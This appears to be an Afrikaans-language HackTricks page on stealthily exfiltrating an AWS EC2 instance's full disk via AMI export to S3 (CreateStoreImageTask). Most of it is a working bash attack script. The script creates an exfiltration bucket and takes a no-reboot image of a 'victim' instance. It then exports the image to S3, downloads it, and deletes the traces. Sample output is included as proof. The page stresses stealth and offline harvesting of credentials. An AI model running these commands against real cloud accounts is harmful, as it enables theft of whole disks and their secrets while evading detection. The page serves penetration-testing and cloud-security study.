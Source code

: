 # AWS – Stiekeme skyf-ekssfiltrasie via AMI Store-to-S3 (CreateStoreImageTask)

{{#include ../../../../banners/hacktricks-training.md}}

## Opsomming
Misbruik EC2 AMI export-to-S3 om die volledige skyf van 'n EC2-instansie as 'n enkele rou beeld in S3 uit te voer, en laai dit daarna out-of-band af. Dit vermy snapshot-sharing en produseer een object per AMI.

## Vereistes
- EC2: `ec2:CreateImage`, `ec2:CreateStoreImageTask`, `ec2:DescribeStoreImageTasks` op die teiken-instansie/AMI
- S3 (dieselfde streek): `s3:PutObject`, `s3:GetObject`, `s3:ListBucket`, `s3:AbortMultipartUpload`, `s3:PutObjectTagging`, `s3:GetBucketLocation`
- KMS ontsleutel op die sleutel wat die AMI-snapshots beskerm (indien EBS standaard-enkripsie aangeskakel is)
- S3 bucket policy wat die `vmie.amazonaws.com` service principal vertrou (sien hieronder)

## Impak
- Volledige offline verkryging van die instansie-rootskyf in S3 sonder om snapshots te deel of oor rekeninge te kopieer.
- Laat stilswyende forensika toe op inlogbewyse, konfigurasie, en lêerstelselinhoud vanaf die uitgevoerde rou beeld.

## Hoe om via AMI Store-to-S3 te ekssfiltreer

- Notas:
- Die S3-bucket moet in dieselfde streek as die AMI wees.
- In `us-east-1`, `create-bucket` mag NIE `--create-bucket-configuration` insluit nie.
- `--no-reboot` skep 'n botsing-konsekwente beeld sonder om die instansie te stop (meer stiekem maar minder konsekwent).

<details>
<summary>Stap-vir-stap opdragte</summary>
```bash
# Vars
REGION=us-east-1
INSTANCE_ID=<i-victim>
BUCKET=exfil-ami-$(date +%s)-$RANDOM

# 1) Create S3 bucket (same Region)
if [ "$REGION" = "us-east-1" ]; then
aws s3api create-bucket --bucket "$BUCKET" --region "$REGION"
else
aws s3api create-bucket --bucket "$BUCKET" --create-bucket-configuration LocationConstraint=$REGION --region "$REGION"
fi

# 2) (Recommended) Bucket policy to allow VMIE service to write the object
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
cat > /tmp/bucket-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVMIEPut",
"Effect": "Allow",
"Principal": {"Service": "vmie.amazonaws.com"},
"Action": [
"s3:PutObject", "s3:AbortMultipartUpload", "s3:ListBucket",
"s3:GetBucketLocation", "s3:GetObject", "s3:PutObjectTagging"
],
"Resource": [
"arn:aws:s3:::$BUCKET",
"arn:aws:s3:::$BUCKET/*"
],
"Condition": {
"StringEquals": {"aws:SourceAccount": "$ACCOUNT_ID"},
"ArnLike": {"aws:SourceArn": "arn:aws:ec2:$REGION:$ACCOUNT_ID:image/ami-*"}
}
}
]
}
POL
aws s3api put-bucket-policy --bucket "$BUCKET" --policy file:///tmp/bucket-policy.json

# 3) Create an AMI of the victim (stealthy: do not reboot)
AMI_ID=$(aws ec2 create-image --instance-id "$INSTANCE_ID" --name exfil-$(date +%s) --no-reboot --region "$REGION" --query ImageId --output text)

# 4) Wait until the AMI is available
aws ec2 wait image-available --image-ids "$AMI_ID" --region "$REGION"

# 5) Store the AMI to S3 as a single object (raw disk image)
OBJKEY=$(aws ec2 create-store-image-task --image-id "$AMI_ID" --bucket "$BUCKET" --region "$REGION" --query ObjectKey --output text)

echo "Object in S3: s3://$BUCKET/$OBJKEY"

# 6) Poll the task until it completes
until [ "$(aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text)" = "Completed" ]; do
aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text
sleep 10
done

# 7) Prove access to the exported image (download first 1MiB)
aws s3api head-object --bucket "$BUCKET" --key "$OBJKEY" --region "$REGION"
aws s3api get-object --bucket "$BUCKET" --key "$OBJKEY" --range bytes=0-1048575 /tmp/ami.bin --region "$REGION"
ls -l /tmp/ami.bin

# 8) Cleanup (deregister AMI, delete snapshots, object & bucket)
aws ec2 deregister-image --image-id "$AMI_ID" --region "$REGION"
for S in $(aws ec2 describe-images --image-ids "$AMI_ID" --region "$REGION" \
--query Images[0].BlockDeviceMappings[].Ebs.SnapshotId --output text); do
aws ec2 delete-snapshot --snapshot-id "$S" --region "$REGION"
done
aws s3 rm "s3://$BUCKET/$OBJKEY" --region "$REGION"
aws s3 rb "s3://$BUCKET" --force --region "$REGION"
```
</details>

## Bewysvoorbeeld

- `describe-store-image-tasks` oorgange:
```text
InProgress
Completed
```
- S3 objek metadata (voorbeeld):
```json
{
"AcceptRanges": "bytes",
"LastModified": "2025-10-08T01:31:46+00:00",
"ContentLength": 399768709,
"ETag": "\"c84d216455b3625866a58edf294168fd-24\"",
"ContentType": "application/octet-stream",
"ServerSideEncryption": "AES256",
"Metadata": {
"ami-name": "exfil-1759887010",
"ami-owner-account": "<account-id>",
"ami-store-date": "2025-10-08T01:31:45Z"
}
}
```
Gedeeltelike aflaai bewys objektoegang:
```bash
ls -l /tmp/ami.bin
# -rw-r--r--  1 user  wheel  1048576 Oct  8 03:32 /tmp/ami.bin
```
## Vereiste IAM-toestemmings

- EC2: `CreateImage`, `CreateStoreImageTask`, `DescribeStoreImageTasks`
- S3 (on export bucket): `PutObject`, `GetObject`, `ListBucket`, `AbortMultipartUpload`, `PutObjectTagging`, `GetBucketLocation`
- KMS: As AMI-snapshots versleuteld is, laat ontsleuteling toe vir die EBS KMS-sleutel wat deur snapshots gebruik word

{{#include ../../../../banners/hacktricks-training.md}}
